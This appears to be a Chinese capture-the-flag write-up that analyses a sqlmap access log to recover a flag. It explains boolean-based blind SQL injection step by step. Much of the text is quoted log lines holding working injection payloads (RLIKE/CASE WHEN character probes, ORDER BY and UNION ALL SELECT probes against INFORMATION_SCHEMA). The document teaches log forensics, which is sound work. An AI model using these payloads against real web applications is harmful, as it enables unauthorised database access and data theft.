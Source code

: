 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQLmap盲注原理细分          # 标题 
subtitle:      #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入 
    
    - Misc
    
    
---
```


## 简介:
Sqlmap 是一个自动化的 SQL 注入工具，其主要功能是扫描、发现并利用给定的 Url 的 Sql 注入漏洞，目前支持 MySQL、 Oracle、 PostgreSQL、 Microsoft SQL Server、 Microsoft Access 等主流数据库。

Sqlmap 使用 5 种 SQL 注入技术（不加参数默认测试所有注入技术）：

基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

联合查询注入，可以使用union的情况下的注入。

堆查询注入，可以同时执行多条语句的执行时的注入。


## 题目:

**仔细观察已受到攻击的服务器上的SQLmap盲注日志，逐字节分析得到flag**


## 考察点：
**SQLmap的盲注原理。此题是基于布尔判断的盲注。**


## 知识点：

SQLmap的盲注过程，与手工注入差不多，大概就是先判断是否为注入点，构造payload，然后再order by 判断列名个数，再用union 联合查询获得数据库名，再判断表名，在得到列名，最后得到具体数据。
## 解题过程：

**1.** 下载access.log文件，用记事本打开观察会非常不方便，先在线url转码再可以把它复制到word里，使用全部替换，把union全部标上颜色，这样比较醒目，会看到sqlmap什么时候开始进行union查询。

**2.** 

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (2783=2783) THEN 0x61646d696e ELSE 0x28 END))-- pCIJ&password=b HTTP/1.1" 200 183 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (7215=9005) THEN 0x61646d696e ELSE 0x28 END))-- hctR&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)" 

在此处注入成功.

然后，
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' ORDER BY 1-- Hjkp&password=b HTTP/1.1" 200 215 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL-- DOGW&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,NULL-- TeAz&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

此处是在通过order by 盲目的猜，有几个字段数，如果成功则返回是。

**3.**

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT CONCAT(0x717a7a6271,0x6e796e634c66504a7163556e4c59757451546d79536b4e4d48535559764e6c686e55596966657377,0x7170767071),NULL,NULL-- sTlf&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,CONCAT(0x717a7a6271,0x667165474b674f67557770626b4f476e575149536b6473496656616a446d494f65456b475a6d6468,0x7170767071),NULL-- Bnun&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

此处是在判断出字段数之后，判断回显点。

**4.** 通过逐个字节猜ascii判断数据库名，最后得到数据库名，0x77616c6177616c61，walawala。

1192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>1) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


**5.** 通过逐个字节猜ascii判断表名。最后得到表名，16进制转换为字符。fl4g。
192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>114) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>115) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


**6.** 猜列名，通过逐字节比较猜每个列名的ascii，依次判断，最后确定为walawala.fl4g

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(column_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x666c3467 AND table_schema=0x77616c6177616c61 LIMIT 0,1),5,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- IRsT&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

**7.** 读出数据flag。例如：
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>64) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>96) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>112) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>104) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>100) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>102) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>101) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

判断flag的第一个字符ascii是否大于64，由第二句可以得到显然大于，又接着判断是否大于96，依然大于，之后判断112，说明小于等于112，之后判断104，100，102，说明比100大，小于等于102，直到最后判断101，说明比101大，可以唯一确定第一个字符的ascii为102，每个字符都如此的比较。最后可以确认flag。







[参考链接（一）:mysql注入细节](https://blog.csdn.net/weixin_33698823/article/details/91963832)

[参考链接（二）:sqlmap基于时间盲注判断原理](https://blog.csdn.net/think_ycx/article/details/52083782)


## 谢谢您的查阅，欢迎来访！
